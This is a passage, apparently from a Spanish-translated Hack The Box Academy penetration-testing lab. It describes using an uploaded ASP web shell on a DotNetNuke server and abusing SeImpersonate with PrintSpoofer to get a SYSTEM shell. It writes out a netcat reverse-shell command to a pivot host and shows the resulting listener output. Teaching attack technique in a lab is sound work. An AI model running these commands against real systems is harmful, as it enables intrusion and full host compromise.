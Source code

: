 Una vez cargado, podemos hacer clic derecho en el archivo cargado y seleccionar`Get URL`. La URL resultante nos permitirá ejecutar comandos a través del shell web, donde luego podríamos trabajar para obtener un shell inverso o realizar pasos de escalada de privilegios, como veremos a continuación.

![text](https://academy.hackthebox.com/storage/modules/163/asp_webshell.png)

---

## Escalada de privilegios

A continuación, necesitamos aumentar los privilegios. En la salida de comando anterior, vimos que tenemos`SeImpersonate`privilegios. Siguiendo los pasos del[Seimpersonate y SeassignPrimaryToken](https://academy.hackthebox.com/module/67/section/607)sección en el`Windows Privilege Escalation`Módulo, podemos trabajar para aumentar nuestros privilegios al sistema, lo que dará como resultado una posición inicial en el dominio Active Directory (AD) y nos permitirá comenzar a enumerar AD.

Intentaremos crecer privilegios usando el`PrintSpoofer`herramienta y luego ver si podemos descargar alguna credencial útil de la memoria o registro del host. Necesitaremos nc.exe en el host Dev01 para enviarnos un shell y el printsproofer64.exe binario para aprovechar`SeImpersonate`privilegios. Hay algunas maneras en que podemos transferirlos allí. Podríamos usar el`dmz01`Host como un "host de salto" y transfiera nuestras herramientas a través de SCP y luego inicie un servidor web Python3 y descargue en el host Dev01 usando`certutil`.

Una forma más fácil sería modificar el DNN`Allowable File Extensions`una vez más para permitir el`.exe`formato de archivo. Luego podemos cargar ambos archivos y confirmar a través de nuestro shell que se encuentran en`c:\DotNetNuke\Portals\0`.

Una vez subido, podemos iniciar un`Netcat`oyente en el`dmz01`host y ejecute el siguiente comando para obtener un shell inverso como`NT AUTHORITY\SYSTEM`:

  Explotación y escalada de privilegios

```shell-session
c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"
```

Ejecutamos el comando y obtenemos un shell inverso casi al instante.

  Explotación y escalada de privilegios

```shell-session
root@dmz01:/tmp# nc -lnvp 443

Listening on 0.0.0.0 443
Connection received on 172.16.8.20 58480
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
ACADEMY-AEN-DEV01
```
